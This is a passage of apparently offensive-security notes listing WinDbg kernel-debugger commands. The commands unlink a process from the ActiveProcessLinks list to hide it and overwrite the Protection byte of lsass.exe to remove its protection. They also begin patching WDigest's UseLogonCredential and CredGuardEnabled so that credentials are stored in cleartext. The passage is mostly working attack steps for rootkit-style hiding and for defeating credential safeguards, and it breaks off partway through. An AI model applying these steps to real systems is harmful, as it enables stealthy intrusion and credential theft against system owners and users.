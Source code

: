#### List cmd blink and flink
```
dt nt!_LIST_ENTRY <EPROCCESS_ADDR>+<OFFSET>
```

#### Change the values to hide process
```
# Previous process flink pointing to the next process activeprocesslinks
eq <BLINK> <FLINK>

# Next process blink pointing to the previous process activeprocesslinks
eq <FLINK>+0x8 <BLINK>

# Set CMD's activeprocesslinks flinkblink become null
eq <EPROCCESS_ADDR>+<OFFSET> 0x0

# Unlink the cmd's ActiveProcessLinks
eq <EPROCCESS_ADDR>+<OFFSET>+0x8 0x0
```

### Changing protection
- The Process Protection level resides in the kernel as a 1 byte value in the EPROCESS structure

#### Identify launched EPROCESS of lsass
```
!process 0 0 lsass.exe
```

#### Print current protection levels of lsass
```
dt nt!_eprocess <EPROCESS_ADDR> Protection.
```

#### Overwrite protection level of lsass with 0
- The offset is located on the line containing: `<OFFSET> Protection :`

```
eb <EPROCESS_ADDR>+<OFFSET> 0x00
```

### Removing CredentialGuard
- Patches Wdigest by changing the value of UseLogonCredential and CredGuardEnabled
	- `CredGuardEnabled` = `0` and `UseLogonCredential` = `1` allows the credentials to be stored as cleartext
	- `CredGuardEnabled` = `1` or `UseLogonCredential` = `0` forces the credentials to be stored as session only

#### Identify launched EPROCESS of lsass
```
!process 0 0 lsass.exe
```

#### Switch to the lsass process context
```
.process /i /p /r <EPROCESS_ADDR>
g
```
